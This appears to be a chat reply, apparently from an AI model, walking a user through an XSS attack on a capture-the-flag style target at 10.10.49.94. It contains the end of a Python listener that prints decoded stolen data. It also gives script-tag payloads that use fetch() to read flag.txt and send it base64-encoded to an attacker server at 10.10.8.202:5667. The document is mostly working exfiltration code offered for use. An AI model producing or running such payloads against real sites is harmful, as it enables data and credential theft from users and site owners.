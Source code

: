 ```python
        self.end_headers()
        
        if "leak=" in self.path:
            flag = base64.b64decode(self.path.split("leak=")[1]).decode()
            print("[*] Stolen Flag:", flag)

HTTPServer(('0.0.0.0', 5667), Handler).serve_forever()
```

Thanks, my friend! Now let’s rewrite everything specifically for your **target (`10.10.49.94`)** while keeping all the powerful attack techniques. 🚀

---

## **🎯 Objective:**

You have **XSS execution** and want to fetch the flag from:

```
http://10.10.49.94:8080/flag.txt
```

and **send it to your attacker machine** at:

```
http://10.10.8.202:5667
```

---

## **1️⃣ Test If You Can Fetch the Flag Using `fetch()`**

Inject this payload to **debug** whether `fetch()` works:

```html
<script>
fetch("http://10.10.49.94:8080/flag.txt")
  .then(res => res.text())
  .then(data => alert("FLAG CONTENT: " + data))
  .catch(error => alert("ERROR: " + error));
</script>
```

✅ **If you see an alert with text, fetch works!**  
❌ **If you get an error, `flag.txt` is blocked or SOP (Same-Origin Policy) is active.**

---

## **2️⃣ If Fetch Works, Send Flag to Your Server**

If the previous step **showed the flag**, now **exfiltrate it**:

```html
<script>
fetch("http://10.10.49.94:8080/flag.txt")
  .then(res => res.text())
  .then(data => {
    fetch("http://10.10.8.202:5667/?leak=" + btoa(data)); // Send flag to your server
  });
</script>
```
